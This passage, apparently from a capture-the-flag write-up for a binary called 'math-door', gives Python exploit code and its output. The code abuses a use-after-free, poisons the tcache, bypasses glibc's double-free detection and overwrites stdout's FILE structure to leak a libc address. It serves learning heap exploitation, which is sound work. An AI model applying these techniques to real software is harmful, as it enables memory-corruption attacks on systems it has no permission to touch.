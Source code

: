 ```python
delete(1)
delete(0) # Now chunk #0 points to chunk with index 1

# UAF to make fwd point to chunk #2's header
edit(0, p64(0x10) + p64(0) + p64(0))

create()
create() # idx = 4, malloc() returns a pointer to chunk #2's header

# Create a chunk with PREV_INUSE set for our chunk that we'll make of size 0xa0
# Add one chunk extra to prevent it from coalescing with the top chunk
for _ in range(5):
    create()

### Keep a pointer to our chunk in the tcache's 0x20 bin
# Make the chunk #2 of size = 0x20 (size gets zeroed when allocating chunk #4)
edit(4, p64(0) + p64(0x21) + p64(0))
delete(2)
edit(2, p64(0) + p64(1) + p64(0)) # Prevent double free detection
delete(2) # counter = 2
edit(2, p64(0) + p64(1) + p64(0))

# Make the chunk #2 of size > maxfast (e. g. 0xa0)
edit(4, p64(0) + p64(0x80) + p64(0))

# Fill the tcache bin by freeing seven times the same chunk
for _ in range(7):
    delete(2)
    edit(2, p64(0) + p64(1) + p64(0)) # Prevent double free detection

# Free one more time and send it to the unsorted bin
delete(2)

# Make fwd pointer in our chunk (which points to libc) point to stdout's struct
edit(2, p64(0xad0) + p64(0) * 2)

create()
create() # idx = 11, should return a pointer to stdout's struct

# Edit stdout and leak!
edit(11, p64(2**64 - 0x203) + p64(0) + p64(2**64 - 0x203))
libc = int.from_bytes(p.read(6), "little") - 0x1b5fd9
print("Libc: 0x%012x" % libc)
```
And now we get our sweet sweet address!
```
❯ python x.py 
[+] Starting local process './math-door': pid 35551
Libc: 0x7fafe98e8000
```
